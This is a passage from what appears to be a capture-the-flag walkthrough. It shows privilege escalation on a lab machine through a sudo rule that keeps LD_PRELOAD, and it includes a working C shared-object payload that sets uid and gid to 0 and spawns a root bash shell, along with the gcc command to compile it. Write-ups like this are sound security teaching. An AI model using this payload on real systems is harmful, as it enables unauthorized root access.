 <br>

Let's use our trusty **linpeas** script again to see if we can enumerate other privesc vectors with the webdeveloper account:

<img style="float: left;" src="screenshots/screenshot23.png">

**env_keep+=LD_PRELOAD** was flagged out as an important privesc vector!

---

**I didn't know what LD_PRELOAD and env_keep was, so I did some research.**

*From: https://book.hacktricks.xyz/linux-unix/privilege-escalation:*

***LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.*

*If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.*

<br>

***env_keep** allows for the preservation of environment variables when using `sudo`.*

---

*The following exploitation method is from: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/*

To escalate our privileges, we first create a **C** file (I called it **pe.c**) in the **/tmp** directory:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

This script defines the **_init()** function, which will set the **gid** and **uid** to 0 (root) and then create a bash shell, thus opening a root shell.

<br>

Next, we compile it the file:

```
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
